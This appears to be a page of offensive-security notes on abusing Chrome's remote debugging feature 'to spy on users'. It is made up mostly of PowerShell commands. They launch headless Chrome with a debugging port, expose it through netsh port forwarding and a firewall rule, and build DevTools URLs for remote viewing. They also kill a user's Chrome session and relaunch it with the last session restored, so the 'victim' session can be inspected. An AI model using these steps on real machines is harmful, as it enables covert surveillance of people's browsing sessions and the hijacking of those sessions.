 # Powerfull automation
![COM Objects](COM%20Objects.md)

## Automating and remote controlling Google Chrome
How to leverage remote debugging to spy on users!
- Running google chrome in the background with remote debugging 
```powershell
# Here we can see also some more good options
Start-Process "chrome" -ArgumentList "https://github.com","--headless","--remote-debugging-port=9222"

# Good option to keep in mind: screenshot=C:/users/zeyad/google.png
# TODO create a script to screen capture browsers
```
- Adding port forward rule (Require admin privileges)
```powershell
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222
# Cleanup
netsh interface portproxy reset
```
- Allowing remote connections to port 48333 via firewall
```powershell
New-NetFirewallRule -Name ChromeRemote -DisplayName "Open
Port 48333" -Direction Inbound -Protocol tcp -LocalPort 48333 -Action Allow -Enabled True
# cleanup
Remove-NetFirewallRule -Name ChromeRemote
```
- Alternatively you can enable it directly without port forwarding using the **`--remote-debugging-address=0.0.0.0`** option
```powershell
# This won't work without the --headless option
Start-Process "chrome" -ArgumentList "https://github.com","--remote-debugging-port=9222","--remote-debugging-address=0.0.0.0","--headless"
```
Now you can view the page remotely, but if the url was like :
```txt
https://chrome-devtools-frontend.appspot.com/serve_file/@273bf7ac8c909cde36982d27f66f3c70846a3718/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
Consider removing this part to resolve the error.
The final URL should be like:
```txt
http://172.16.111.138:9222/devtools/inspector.html?ws=172.16.111.138:9222/devtools/page/2D2CF661C2D2BA88745171418BF50A0E&remoteFrontend=true
```
> **Important information Notes**
> 1. Chrome is frequently updated, and behaviors might change over time. 
> 2. The remote debugging feature Chrome provides does not offer an encrypted connection, so use this remotely capability carefully.
### Using Chrome remote debugging to spy on users!
- Kill the user chrome session then start a new one
```powershell
# This will require manual portforward
Start-Process "chrome" -ArgumentList "--headless","--remote-debugging-port=9222","--restore-last-session"
```
- View victim settings by browsing to **chrome://settings** (didn't work for me)

